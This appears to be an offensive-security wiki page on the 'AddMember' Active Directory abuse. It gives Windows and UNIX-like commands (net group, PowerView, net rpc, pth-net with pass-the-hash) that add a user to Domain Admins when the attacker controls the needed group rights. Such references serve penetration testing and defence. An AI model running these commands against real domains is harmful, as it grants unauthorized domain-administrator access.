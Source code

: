 # AddMember

This abuse can be carried out when controlling an object that has `AllExtendedRights`, `Self`, `WriteProperty`, `GenericWrite` or `GenericAll` over a target group.

{% tabs %}
{% tab title="Windows" %}
The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Command line
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```
{% endtab %}

{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../ntlm/pass-the-hash.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```
{% endtab %}
{% endtabs %}

